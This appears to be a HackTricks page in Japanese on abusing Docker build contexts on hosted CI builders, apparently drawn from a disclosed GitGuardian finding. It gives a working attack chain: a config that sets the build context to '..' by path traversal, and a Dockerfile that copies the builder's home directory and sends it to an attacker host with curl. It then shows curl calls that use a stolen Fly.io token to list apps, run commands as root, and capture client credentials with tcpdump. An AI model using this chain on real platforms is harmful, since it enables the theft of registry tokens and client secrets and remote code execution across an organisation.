 # ホストされたビルダーでの Docker ビルドコンテキストの悪用 (Path Traversal, Exfil, and Cloud Pivot)

{{#include ../banners/hacktricks-training.md}}

## TL;DR

CI/CD プラットフォームやホストされた builder が貢献者に Docker ビルドコンテキストパスと Dockerfile パスの指定を許す場合、コンテキストを親ディレクトリ（例: ".."）に設定してホスト上のファイルをビルドコンテキストに含めることがしばしば可能です。すると、攻撃者制御下の Dockerfile は COPY してビルダーのユーザホームにある secrets（例: ~/.docker/config.json）を exfiltrate できます。盗まれた registry tokens はプロバイダの control-plane APIs に対しても有効になり、組織全体の RCE を引き起こす可能性があります。

## 攻撃面

多くのホストされた builder/registry サービスは、ユーザー提出のイメージをビルドする際に概ね次の処理を行います:
- repo-level config を読み、その中に以下を含む:
  - build context path（Docker daemon に送られる）
  - Dockerfile path（そのコンテキストからの相対パス）
- 指定された build context ディレクトリと Dockerfile を Docker daemon にコピーする
- イメージをビルドし、ホストされたサービスとして実行する

プラットフォームが build context を正規化および制限しない場合、ユーザはそれをリポジトリ外の場所（path traversal）に設定でき、ビルドユーザが読み取れる任意のホストファイルがビルドコンテキストの一部となり、Dockerfile で COPY 可能になります。

実際によくある制約:
- Dockerfile は選択したコンテキストパス内に存在し、そのパスは事前に知られている必要がある。
- ビルドユーザはコンテキストに含めるファイルに対して読み取り権限を持っている必要がある。特殊なデバイスファイルはコピーを壊す可能性がある。

## PoC: Docker build context を介した Path traversal

親ディレクトリのコンテキスト内に Dockerfile を宣言する悪意あるサーバ設定の例:
```yaml
runtime: "container"
build:
dockerfile: "test/Dockerfile"   # Must reside inside the final context
dockerBuildPath: ".."           # Path traversal to builder user $HOME
startCommand:
type: "http"
configSchema:
type: "object"
properties:
apiKey:
type: "string"
required: ["apiKey"]
exampleConfig:
apiKey: "sk-example123"
```
注意:
- 「..」を使用すると、しばしば builder ユーザーのホーム（例: /home/builder）に解決されます。そこには通常、機密ファイルが含まれます。
- Dockerfile はリポジトリのディレクトリ名の下に置いてください（例: repo "test" → test/Dockerfile）。そうすることで展開された親コンテキスト内に留まります。

## PoC: Dockerfile によるホストコンテキストの ingest と exfiltrate
```dockerfile
FROM alpine
RUN apk add --no-cache curl
RUN mkdir /data
COPY . /data                      # Copies entire build context (now builder’s $HOME)
RUN curl -si https://attacker.tld/?d=$(find /data | base64 -w 0)
```
Targets commonly recovered from $HOME:
- ~/.docker/config.json (registry auths/tokens)
- その他のクラウド/CLI キャッシュおよび設定 (例: ~/.fly, ~/.kube, ~/.aws, ~/.config/*)

Tip: リポジトリに .dockerignore があっても、脆弱なプラットフォーム側のコンテキスト選択が daemon に送られる内容を制御します。プラットフォームが選択したパスをあなたのリポジトリの .dockerignore を評価する前に daemon にコピーする場合、ホストファイルが依然として露出する可能性があります。

## 過剰権限のトークンでのクラウドピボット (example: Fly.io Machines API)

一部のプラットフォームは、container registry と control-plane API の両方で使用可能な単一の bearer token を発行します。もし you exfiltrate a registry token, try it against the provider API.

Example API calls against Fly.io Machines API using the stolen token from ~/.docker/config.json:

Enumerate apps in an org:
```bash
curl -H "Authorization: Bearer fm2_..." \
"https://api.machines.dev/v1/apps?org_slug=smithery"
```
アプリの任意のマシン内で root としてコマンドを実行する:
```bash
curl -s -X POST -H "Authorization: Bearer fm2_..." \
"https://api.machines.dev/v1/apps/<app>/machines/<machine>/exec" \
--data '{"cmd":"","command":["id"],"container":"","stdin":"","timeout":5}'
```
結果：token が十分な権限を持つ場合、組織全体にわたってホストされているアプリすべてで remote code execution を実行できます。

## 侵害されたホスティングサービスからの機密情報窃取

hosted servers 上で exec/RCE を得ると、クライアントが提供した機密（API keys、tokens）を収集したり、prompt-injection 攻撃を仕掛けたりできます。例: tcpdump をインストールして port 8080 の HTTP トラフィックをキャプチャし、着信認証情報を抽出します。
```bash
# Install tcpdump inside the machine
curl -s -X POST -H "Authorization: Bearer fm2_..." \
"https://api.machines.dev/v1/apps/<app>/machines/<machine>/exec" \
--data '{"cmd":"apk add tcpdump","command":[],"container":"","stdin":"","timeout":5}'

# Capture traffic
curl -s -X POST -H "Authorization: Bearer fm2_..." \
"https://api.machines.dev/v1/apps/<app>/machines/<machine>/exec" \
--data '{"cmd":"tcpdump -i eth0 -w /tmp/log tcp port 8080","command":[],"container":"","stdin":"","timeout":5}'
```
キャプチャしたリクエストには、ヘッダー、本文、またはクエリパラメータにクライアント認証情報が含まれていることがよくあります。

## References

- [Breaking MCP Server Hosting: Build-Context Path Traversal to Org-wide RCE and Secret Theft](https://blog.gitguardian.com/breaking-mcp-server-hosting/)
- [Fly.io Machines API](https://fly.io/docs/machines/api/)

{{#include ../banners/hacktricks-training.md}}
